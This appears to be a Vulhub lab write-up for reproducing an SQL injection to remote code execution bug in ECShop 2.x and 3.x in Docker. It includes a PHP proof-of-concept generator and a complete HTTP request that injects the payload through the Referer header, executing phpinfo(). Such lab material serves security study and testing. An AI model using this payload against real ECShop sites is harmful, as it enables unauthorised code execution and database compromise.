



ECShop 2.x/3.x SQL Injection / Remote Code Execution Vulnerability¶
ECShop is a B2C independent shop system for companies and individuals to quickly build personalized online store. This system is a cross-platform open source program based on PHP language and MYSQL database architecture.
In 2017 and previous versions, there was a SQL injection vulnerability that could inject payload and eventually lead to code execution vulnerabilities. The latest version of 3.6.0 has fixed the vulnerability, and vulhub uses its latest version 2.7.3 and 3.6.0 non-latest version versions to reproduce the vulnerability.
Reference link:
Environment setup¶
Run the following commands to start environment
docker compose up -d
After the environment start, visit http://your-ip:8080, you will see the 2.7.3 installation page. Visit http://your-ip:8081, you will see the 3.6.0 installation page.
Install both of them, mysql address is mysql, mysql account and password are root, the database name is free to fill in, but the database names of 2.7.3 and 3.6.0 can not be the same.
As the picture shows:

Exploit¶
There is a script that can generate POC for 2.x and 3.x:
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
"num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
"id" => $id
];
$s = serialize($arr);
$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';
echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
Put POC in the HTTP-Referer:
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Result of 2.x:

Result of 3.x:
